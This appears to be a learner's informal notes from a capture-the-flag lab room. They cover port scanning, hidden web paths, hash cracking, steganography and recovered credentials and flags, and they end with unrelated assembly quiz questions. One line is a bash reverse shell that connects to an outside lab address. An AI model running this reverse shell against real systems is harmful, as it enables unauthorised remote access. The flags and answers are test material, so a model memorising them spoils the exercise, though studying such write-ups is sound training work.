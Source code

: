 #Room-NmapPeasy
....................................................................
====================================================================
#Nmap


====================================================================
....................................................................
#Steps I aquire to gain acccess:
----------------------------------
export IP=10.10.55.207

ports: 80, 6498, 65524

$ip:80/hidden
found 1st flag in page source on: $ip:80/hidden/waterver

User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250 //thats a md5 hash lets crack it

flag{1m_s3c0nd_fl4g}

Allow:/
This Flag Can Enter But Only This Flag No More Exceptions

base62:ObsJmP173N2X6dOrAgEAL0Vu
/n0th1ng3ls3m4tt3r

gost hash: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

and the output from above is : mypasswordforthatjob

time for stegnography: 
downloaded file name biner
and its password protect which is the above we found.

and we found a test file in which we got:
user: boring
password: iconvertedmypasswordtobinary //password was in binary format.




flag{9fdafbd64c47471a8f54cd3fc64cd312}



user flag: flag{n0wits33msn0rm4l}

bash -i >& /dev/tcp/10.9.69.3/1234 0>&1


....................................................................
====================================================================
....................................................................

#1	What is the value of local_ch when its corresponding movl instruction is called (first if multiple)? 
	Ans: 1

#2	What is the value of eax when the imull instruction is called?
	Ans: 

#3	What is the value of local_4h before eax is set to 0?
	Ans: 

....................................................................
====================================================================